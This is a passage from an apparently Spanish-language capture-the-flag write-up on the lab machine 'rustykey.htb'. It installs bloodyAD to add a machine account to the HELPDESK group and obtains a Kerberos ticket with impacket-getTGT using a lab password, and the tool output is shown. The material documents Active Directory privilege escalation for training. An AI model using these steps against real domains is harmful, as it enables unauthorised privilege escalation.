 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-15 120556.png" alt=""><figcaption></figcaption></figure>

Vamos a utilizar la herramienta `bloodyAD` para realizar todo esto, primero vamos añadirnos con la maquina `IT-COMPUTER3` al grupo de `HELPDESK` ya que tenemos los privilegios para ello.

URL = [GitHub Herramienta BloodyAD](https://github.com/CravateRouge/bloodyAD)

```shell
git clone https://github.com/CravateRouge/bloodyAD.git
cd bloodyAD/
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
```

Ahora antes de ejecutar la herramienta, vamos a generar un `TGT` del equipo `IT-COMPUTER3` para podernos autenticar desde `kerberos` y que no de error.

```shell
ntpdate rustykey.htb ; impacket-getTGT rustykey.htb/'IT-COMPUTER3':'Rusty88!'
```

Info:

```
2025-10-15 11:13:16.526978 (-0700) +1.225498 +/- 0.013941 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 1.225498
/home/kali/Desktop/rustykey/bloodyAD/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in IT-COMPUTER3.ccache
```

